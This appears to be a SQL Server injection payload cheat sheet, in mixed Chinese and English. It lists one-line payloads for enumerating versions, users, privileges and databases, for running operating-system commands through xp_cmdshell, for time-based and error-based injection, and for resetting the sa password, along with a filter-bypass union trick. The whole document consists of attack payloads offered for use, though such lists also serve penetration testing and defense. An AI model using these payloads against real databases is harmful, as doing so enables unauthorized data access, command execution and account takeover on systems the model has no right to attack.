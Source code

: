 SQL Server Payload
=====================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- 用户信息
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- 用户权限
    - ``select IS_SRVROLEMEMBER('sysadmin')``
    - ``select IS_SRVROLEMEMBER('db_owner')``
- List User
    - ``SELECT name FROM master..syslogins``
- 数据库信息
    - ``SELECT name FROM master..sysdatabases``
    - ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
    - 用于判断是否站库分离
    - ``select host_name()``

报错注入
----------------------------------------
- ``1=convert(int,(db_name()))``

常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()
